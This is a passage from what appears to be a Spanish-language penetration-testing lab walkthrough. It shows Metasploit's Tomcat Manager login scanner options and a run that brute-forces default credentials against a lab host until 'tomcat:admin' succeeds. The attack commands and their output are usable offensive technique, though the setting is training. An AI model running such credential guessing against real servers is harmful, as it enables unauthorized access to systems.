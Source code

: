 ```r
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                                                          no        The HTTP username to specify for authentication
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST             web01.inlanefreight.local                                                       no        HTTP server virtual host
```

Ejecutamos `run` y obtenemos una coincidencia para el par de credenciales `tomcat:admin`.

```r
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:vagrant (Incorrect)
[+] 10.129.201.58:8180 - Login Successful: tomcat:admin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
